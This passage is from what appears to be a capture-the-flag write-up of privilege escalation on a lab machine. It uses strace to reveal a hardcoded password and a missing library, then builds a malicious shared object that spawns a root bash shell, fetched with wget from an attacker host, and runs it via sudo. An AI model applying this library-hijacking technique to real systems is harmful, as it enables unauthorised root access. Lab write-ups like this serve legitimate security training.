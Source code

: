 ```bash
getrandom("\xad\xa4\x1b\xa1\xf6\x79\xe8\x75", 8, GRND_NONBLOCK) = 8
brk(NULL)                               = 0x55aa8beef000
brk(0x55aa8bf10000)                     = 0x55aa8bf10000
newfstatat(0, "", {st_mode=S_IFIFO|0600, st_size=0, ...}, AT_EMPTY_PATH) = 0
read(0, St0ckM4nager
"St0ckM4nager\n", 4096)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
read(0, 1
"1\n", 4096)                    = 2
openat(AT_FDCWD, "/root/.stock.csv", O_RDONLY) = -1 EACCES (Permission denied)
write(1, "Enter the password: \n==========="..., 183Enter the password: 
================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option: You do not have permissions to read the file) = 183
lseek(0, -1, SEEK_CUR)                  = -1 ESPIPE (Illegal seek)
exit_group(1)                           = ?
+++ exited with 1 +++
```

Halfway through it did require a password, I tried St0ckM4nager and you can see the file carried onwards. It references a specific file inside of our users **.config** directory. 

```bash
rektsu@zipping:/home/rektsu/.config$ ls
ls
```

It's empty and in a location I can write to. Here is an easy c shell I can get:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void method()__attribute__((constructor));
void method() {
    system("/bin/bash -i");
}
```

```bash
rektsu@zipping:/home/rektsu/.config$ wget http://10.10.14.5:8081/raccoonshell.c
<.config$ wget http://10.10.14.5:8081/raccoonshell.c
--2023-09-16 02:55:27--  http://10.10.14.5:8081/raccoonshell.c
Connecting to 10.10.14.5:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 148 [text/x-csrc]
Saving to: 'raccoonshell.c.1'

     0K                                                       100% 22.0K=0.007s

2023-09-16 02:55:27 (22.0 KB/s) - 'raccoonshell.c.1' saved [148/148]
rektsu@zipping:/tmp$ gcc -shared -fpic -o libcounter.so raccoonshell.c
gcc -shared -fpic -o libcounter.so raccoonshell.c
raccoonshell.c: In function 'method':
raccoonshell.c:6:5: warning: implicit declaration of function 'system' [-Wimplicit-function
-declaration]
    6 |     system("/bin/bash -i");
      |     ^~~~~~
rektsu@zipping:/tmp$ sudo /usr/bin/stock
sudo /usr/bin/stock
St0ckM4nager
```